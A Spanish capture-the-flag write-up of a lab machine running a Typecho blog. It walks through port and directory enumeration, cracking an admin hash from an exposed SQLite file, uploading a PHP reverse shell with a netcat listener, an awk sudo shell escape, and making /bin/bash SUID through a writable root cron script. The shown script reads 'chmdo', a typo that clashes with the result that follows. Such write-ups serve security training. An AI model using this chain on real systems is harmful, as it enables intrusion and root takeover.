




**Autor**: Zacarx007  \\
**Dificultad**: Fácil


## Enumeración

Lo primero es realizar una enumeración de puertos con **nmap**.

```
h3rshel@kali:~/Desktop$ sudo nmap -p- 192.168.1.26 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 13:15 CEST
Nmap scan report for 192.168.1.26
Host is up (0.000087s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:3A:D5:C1 (Oracle VirtualBox virtual NIC)
```

Haciendo una enumeración más profunda, se puede ver que en el servidor apache del puerto 80 existe un blog **typecho 1.2.1** lo cual será importante para más tarde.

```
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Zacarx's blog
|_http-generator: Typecho 1.2.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### 80 Blog

Al hacer una petición simple con **curl** veo varias lineas en las que se hace referencia al dominio **za1.hmv** por lo que será necesario añadirlo a "/etc/hosts" para poder cargar los estilos correctamente.

```
h3rshel@kali:~/Desktop$ curl 192.168.1.26                            
<!DOCTYPE HTML>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="renderer" content="webkit">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <title>Zacarx's blog</title>

    <!-- 使用url函数转换相关路径 -->
    <link rel="stylesheet" href="http://za1.hmv/usr/themes/default/normalize.css">
    <link rel="stylesheet" href="http://za1.hmv/usr/themes/default/grid.css">
    <link rel="stylesheet" href="http://za1.hmv/usr/themes/default/style.css">

    <!-- 通过自有函数输出HTML头部信息 -->
    <meta name="description" content="a nice blog" />
<meta name="keywords" content="typecho,php,blog" />
<meta name="generator" content="Typecho 1.2.1" />
<meta name="template" content="default" />
```

Una vez hecho eso, realizo una enumeración de subdirectorios y ficheros con **gobuster**, donde encuentro el directorio "/sql" además de "/admin".

```
h3rshel@kali:~/Desktop$ gobuster dir -u "http://za1.hmv/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://za1.hmv/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 272]
/.html                (Status: 403) [Size: 272]
/index.php            (Status: 200) [Size: 6716]
/admin                (Status: 301) [Size: 302] [--> http://za1.hmv/admin/]
/install              (Status: 301) [Size: 304] [--> http://za1.hmv/install/]
/install.php          (Status: 302) [Size: 0] [--> http://za1.hmv/]
/sql                  (Status: 301) [Size: 300] [--> http://za1.hmv/sql/]
/LICENSE.txt          (Status: 200) [Size: 14974]
```

Con otra petición **curl** veo dos archivos, **new.sql** y **sercet.sql** dentro de "/sql".

```
h3rshel@kali:~/Desktop$ curl http://za1.hmv/sql -L
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /sql</title>
 </head>
 <body>
<h1>Index of /sql</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="new.sql">new.sql</a></td><td align="right">2023-09-05 11:41  </td><td align="right">100K</td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="sercet.sql">sercet.sql</a></td><td align="right">2023-07-26 08:56  </td><td align="right">100K</td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.29 (Ubuntu) Server at za1.hmv Port 80</address>
</body></html>
```

Me descargo **new.sql** y utilizando la herramienta **sqlite3** puedo leer el contenido de la base de datos.

```
h3rshel@kali:~/Desktop$ wget http://za1.hmv/sql/new.sql
h3rshel@kali:~/Desktop$ sqlite3 new.sql
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables;
Error: unknown command or invalid arguments:  "tables;". Enter ".help" for help
sqlite> .tables
typechocomments       typechometas          typechousers        
typechocontents       typechooptions      
typechofields         typechorelationships
sqlite> select * from typechousers
   ...> ;
1|zacarx|$P$BhtuFbhEVoGBElFj8n2HXUwtq5qiMR.|zacarx@qq.com|http://www.zacarx.com|zacarx|1690361071|1692694072|1690364323|administrator|9ceb10d83b32879076c132c6b6712318
2|admin|$P$BERw7FPX6NWOVdTHpxON5aaj8VGMFs0|admin@11.com||admin|1690364171|1690365357|1690364540|administrator|5664b205a3c088256fdc807791061a18
```

Encuentro un usuario **admin** y el hash de su contraseña.

Utilizando **john** y la lista **rockyou.txt** lo crackeo.

```
h3rshel@kali:~/Desktop$ john hash --wordlist=/usr/share/wordlists/rockyou.txt                          
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1*****           (?) 
```

Inicio sesión en **http://za1.hmv/admin** como el usuario **admin**.



## Explotación

Existe una vulnerabilidad en esta versión de **[Typecho](https://nvd.nist.gov/vuln/detail/CVE-2023-36299)** gracias a la cual se puede subir un archivo **php** y obtener una shell.

Para ello será necesario permitir archivos **php** en la configuración de administrador.



A continuación, navego a "admin/write-post.php" y hago click donde indica la siguiente imágen para subir el archivo "rev_shell.php".



Una vez subido, desde el menú principal solo hay que clickear en el post para obtener la shell.



**Nota:** Es necesario haber creado un listener. Ej **nc -lvnp 1234** 

## Escalado de privilegios

Dentro del servidor, rápidamente vemos que podemos ejecutar **awk** como el usuario za_1.

```
www-data@za_1:/$ sudo -l 
sudo -l
Matching Defaults entries for www-data on za_1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on za_1:
    (za_1) NOPASSWD: /usr/bin/awk
```

[GTFO Bins](https://gtfobins.github.io/gtfobins/awk/#sudo) nos da la clave para escalar privilegios.

```
sudo -u za_1 /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ whoami
za_1
```

Antes de nada, recomiendo crear un par de claves id_rsa y conectarse a través de **ssh** para que ejecutar comandos sea mas sencillo.

```
za_1@za_1:~$ ls -la
total 44
drwxr-xr-x 6 za_1 za_1 4096 Aug 22 08:49 .
drwxr-xr-x 3 root root 4096 Jul 26 07:07 ..
lrwxrwxrwx 1 za_1 za_1    9 Aug 22 08:49 .bash_history -> /dev/null
-rw-r--r-- 1 za_1 za_1  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 za_1 za_1 3771 Apr  4  2018 .bashrc
drwx------ 2 za_1 za_1 4096 Jul 26 07:08 .cache
drwx------ 3 za_1 za_1 4096 Jul 26 07:08 .gnupg
-rw-r--r-- 1 za_1 za_1  807 Apr  4  2018 .profile
drwxr-xr-x 2 za_1 za_1 4096 Jul 26 09:48 .root
drwx------ 2 za_1 za_1 4096 Sep  5 13:52 .ssh
-rw-r--r-- 1 za_1 za_1    0 Jul 26 07:17 .sudo_as_admin_successful
-rw-r--r-- 1 za_1 za_1   23 Jul 26 09:23 user.txt
-rw------- 1 za_1 za_1  991 Jul 26 07:30 .viminfo
```

Ejecuto **pspy64** y veo que el usuario root está ejecutando un script dentro de "/home/za_1/.root/" mediante una tarea **cron**.

```
za_1@za_1:~$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
[...]
2023/09/05 13:55:16 CMD: UID=1000  PID=1922   | ./pspy64 
2023/09/05 13:55:16 CMD: UID=0     PID=1908   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1906   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1905   | /bin/sh -c /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1904   | /usr/sbin/CRON -f 
2023/09/05 13:55:16 CMD: UID=1000  PID=1883   | -bash 
2023/09/05 13:55:16 CMD: UID=1000  PID=1882   | sshd: za_1@pts/1     
2023/09/05 13:55:16 CMD: UID=0     PID=1847   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1842   | /bin/bash /home/za_1/.root/back.sh 
2023/09/05 13:55:16 CMD: UID=0     PID=1841   | /bin/sh -c /bin/bash /home/za_1/.root/back.sh
[...]
```

Además, tengo permisos para editar el script.

```
za_1@za_1:~$ ls -la .root/back.sh 
-rwxrwxrwx 1 root root 32 Sep  5 13:56 .root/back.sh
```

Lo modifico de la siguiente manera para que cuando se ejecute, **/bin/bash** obtenga permisos **SUID**.

```
za_1@za_1:~$ cat .root/back.sh 
#!/bin/bash

chmdo +s /bin/bash
```

Después de esperar un poco a que se ejecute la tarea, se puede comprobar que ya puedo ejecutar **bash** como el usuario root.

```
za_1@za_1:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr 18  2022 /bin/bash
za_1@za_1:~$ bash -p
bash-4.4# whoami
root
bash-4.4# :)
```

Muchas gracias a **Zacarx007** por esta máquina.

